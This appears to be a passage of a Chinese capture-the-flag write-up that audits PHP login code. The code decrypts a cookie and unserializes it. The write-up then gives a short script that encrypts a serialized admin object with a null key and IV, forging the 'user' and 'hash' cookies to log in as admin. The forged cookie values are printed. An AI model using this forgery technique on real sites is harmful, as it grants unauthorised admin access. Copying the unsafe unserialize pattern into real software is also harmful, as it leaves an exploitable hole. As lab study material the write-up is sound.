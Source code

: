 ```php
        echo $o->show();
        $ser_user = serialize($o);
        $cipher = openssl_encrypt($ser_user, "des-cbc", $_SESSION['key'], 0, $_SESSION['iv']);
        setcookie("user", base64_encode($cipher), time()+3600);
        setcookie("hash", md5($ser_user), time() + 3600);
    }
    else{
        $user = base64_decode($_COOKIE['user']);
        $uid = openssl_decrypt($user, 'des-cbc', $_SESSION['key'], 0, $_SESSION['iv']);
        if(md5($uid) !== $_COOKIE['hash']){
            die("no hacker!");
        }
        $o = unserialize($uid);
        echo $o->show();
        if ($o->username === "admin"){
            $_SESSION['name'] = 'admin';
            include "hint.php";
        }
    }
```

审计源码后发现若第一次访问就存在`$_COOKIE['user'] 和 $_COOKIE['hash']`则`$_SESSION['key'] 和 $_SESSION['key']`的值就为null，我们用null为密钥和向量加密payload即可控制uid的值。

```php
<?php
include "user.php";
$user = new User('admin');
$userStr = serialize($user);
$cipher = openssl_encrypt($userStr, "des-cbc", null, 0, null);
//检验一下解密是否正常
$uid = openssl_decrypt($cipher, 'des-cbc', null, 0, null);
$hash = md5($uid);
echo 'user='.base64_encode($cipher).'; hash='.$hash;
//user=b3hIekw5Mk82WTQwbUk1M3RHYThQR0V4UmVZeHVSdE1ranZRYk43eksyVXhaTnFQZ2l1YkRKc0dpd1Z5cUlzVg==; hash=abc2f600e79557ef90ca4e07516b486f
```

cookie伪造后以admin身份登入，发现hint（其实源码里可以发现hint.php，web访问即可看到hint，但是对这题没有影响）。

![image-20200309044415844](image-20200309044415844.png)

